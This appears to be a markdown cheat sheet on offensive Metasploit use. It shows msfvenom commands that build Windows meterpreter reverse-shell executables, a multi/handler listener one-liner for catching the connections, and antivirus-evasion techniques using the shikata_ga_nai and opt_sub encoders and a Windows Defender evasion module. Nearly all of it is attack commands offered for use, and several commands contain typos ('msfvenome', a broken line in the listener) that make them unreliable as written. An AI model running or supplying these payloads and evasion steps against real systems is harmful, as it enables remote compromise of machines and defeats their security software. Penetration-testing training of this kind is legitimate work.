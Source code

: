 ## Msfvenom
The msfvenom utility can **generate a payload** as well as **encode it** in a single command. We shall look at a few commands next:
- **List payloads**
```bash
msfvenome --list payloads
```
- **List encoders**
```bash
msfvenome --list encoders
```
- **List formats**
```bash
msfvenome --help formats
```
- **List platforms**
```bash
msfvenome --help platforms
```
- **Example usage**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
> Cheatsheet : https://book.hacktricks.xyz/shells/shells/msfvenom
### Listeners
Once we have generated a payload, we need to set up a listener that would accept reverse connections.
- **One linear example**
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/
meterpreter/reverse_tcp; set LHOST <IP>; set LPORT
<PORT>; run; exit -y"
```
---
# Antivirus-Evasion-Anti-Forensics
## Using-Encoders
### shikata_ga_nai_encoder
This is not the best way to evade a modern AV because it's easilty detected even after multiple encoding iterations. 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -e x86/shikata_ga_nai -i 5 -f exe -O ./reverse.exe

# -i ,iterations
```
### opt_sub-encoder
This is slightly better than shikata_ga_nai but overall not the best option for a real-life engagement.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -e x86/opt_sub -i 5 -f exe -O ./reverse.exe
```
## Using-the-new-evasion-modules
This module evades the Windows Defender antivirus. This is achieved using various techniques, such as metasm, anti-emulation, shellcode encryption, and source code obfuscation.
### windows_defender_exe
```bash
use evasion/windows/windows_defender_exe
```